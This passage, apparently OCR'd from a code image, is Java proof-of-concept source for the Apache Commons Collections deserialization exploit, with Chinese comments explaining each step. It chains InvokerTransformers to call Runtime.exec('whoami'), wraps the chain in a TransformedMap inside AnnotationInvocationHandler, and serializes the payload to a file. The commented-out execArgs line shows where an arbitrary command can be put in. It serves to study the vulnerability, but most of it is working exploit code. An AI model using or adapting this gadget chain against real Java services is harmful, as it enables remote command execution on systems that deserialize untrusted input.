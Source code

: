 ```java

        //transformers: 一个transformer链，包含各类transformer对象（预设转化逻辑）的转化数组
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            /*
            由于Method类的invoke(Object obj,Object args[])方法的定义
            所以在反射内写new Class[] {Object.class, Object[].class }
            正常POC流程举例：
            ((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("gedit");
            */
            new InvokerTransformer(
                "getMethod",
                new Class[] {String.class, Class[].class },
                new Object[] {"getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] {Object.class,Object[].class }, 
                new Object[] {null, null }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] {String[].class },
                new Object[] { "whoami" }
                //new Object[] { execArgs } 
            )
        };

        //transformedChain: ChainedTransformer类对象，传入transformers数组，可以按照transformers数组的逻辑执行转化操作
        Transformer transformedChain = new ChainedTransformer(transformers);

        //BeforeTransformerMap: Map数据结构，转换前的Map，Map数据结构内的对象是键值对形式
        Map<String,String> BeforeTransformerMap = new HashMap<String,String>();

        BeforeTransformerMap.put("hello", "hello");

        //Map数据结构，转换后的Map
       /*
       TransformedMap.decorate方法,预期是对Map类的数据结构进行转化，该方法有三个参数。
            第一个参数为待转化的Map对象
            第二个参数为Map对象内的key要经过的转化方法（可为单个方法，也可为链，也可为空）
            第三个参数为Map对象内的value要经过的转化方法。
       */
        Map AfterTransformerMap = TransformedMap.decorate(BeforeTransformerMap, null, transformedChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, AfterTransformerMap);

        File f = new File("temp.bin");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
    }
}

/*
思路:构建BeforeTransformerMap的键值对，为其赋值，
     利用TransformedMap的decorate方法，对Map数据结构的key/value进行transforme
     对BeforeTransformerMap的value进行转换，当BeforeTransformerMap的value执行完一个完整转换链，就完成了命令执行

```